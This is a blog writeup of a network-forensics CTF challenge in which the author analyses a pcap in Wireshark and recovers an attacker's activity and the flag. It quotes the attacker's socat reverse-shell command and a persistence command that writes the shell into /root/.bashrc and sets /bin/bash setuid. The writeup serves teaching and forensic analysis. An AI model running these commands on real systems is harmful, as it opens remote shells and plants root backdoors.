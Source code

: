 ```yaml
---
layout: post
title:  "HTB HackTheBoo 2022 - (Forensics) Wrong Spooky Season"
date:   2022-10-27 18:00:00 +0300
categories: HackTheBoo_2022 CTF forensics network_forensics
summary: Writeup for the Wrong Spooky Season challenge (Forensics1/5) from HackTheBoo 2022. This challenge involved some simple analysis of a pcap file.
---
```



'Wrong Spooky Season' was a forensics challenge (day1 out of 5) from HackTheBox's HackTheBoo CTF.  
The challenge involved some simple analysis of a pcap file.

### Network analysis

For this challenge we got a pcap file. 

![Opening the pcap file]({{site.baseurl}}/assets/img/HackTheBoo_2022/wrong_spooky_season/wireshark1.png){: .center-image}

We open the file with Wireshark and we see some http traffic.  

As a result, we'll start with filtering the http traffic (use 'http' as a filter) and analyzing that.

![Analyzing HTTP traffic]({{site.baseurl}}/assets/img/HackTheBoo_2022/wrong_spooky_season/wireshark2.png){: .center-image}

Near the end of the capture, we can see requests being made to an endpoint (/e4d1c32a56ca15b3.jsp) that has a *cmd* parameter.  
Here, the *cmd* parameter is being used for transmitting bash commands.  
In the last GET request that we can see in the capture, we see the attacker using socat to open a reverse shell.

{% highlight bash %}
socat TCP:192.168.1.180:1337 EXEC:bash
{% endhighlight %}

The attacker did not use encryption for their shell, so we can look at their activity by following one of the TCP streams that are opened after that GET request is processed.

![Analyzing TCP stream]({{site.baseurl}}/assets/img/HackTheBoo_2022/wrong_spooky_season/wireshark3.png){: .center-image}

Here we can see the attacker interacting with the target system.  
The second last command that was ran is used by the attacker to establish persistence on the system by adding their reverse shell command to /root/.bashrc

{% highlight bash %}
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
{% endhighlight %}

This is where we can also see a string being echoed to the terminal.  

### Getting the flag

That string is base64-encoded and then reversed.  
This can be quite obvious even without seeing the rest of the command because of the "==" at the beginning of the string (you would expect two equal signs at the end of a base64-encoded string).

We use CyberChef to reverse the string and then base64-decode it.

![Getting the flag]({{site.baseurl}}/assets/img/HackTheBoo_2022/wrong_spooky_season/flag.png){: .center-image}

And we got our flag

### Other forensics challenges from this CTF

This CTF released a challenge in each of its 5 categories every day.  
I have writeups for all the forensics challenges. Here are some links to them:
- Day 1 - Wrong Spooky Season (you are here)
- Day 2 - [Trick or Breach](/HTB-HackTheBoo-2022-Forensics2-Trick-of-Breach)
- Day 3 - [Halloween Invitation](/HTB-HackTheBoo-2022-Forensics3-Halloween-Invitation)
- Day 4 - [POOF](/HTB-HackTheBoo-2022-Forensics4-POOF)
- Day 5 - [Downgrade](/HTB-HackTheBoo-2022-Forensics5-Downgrade)
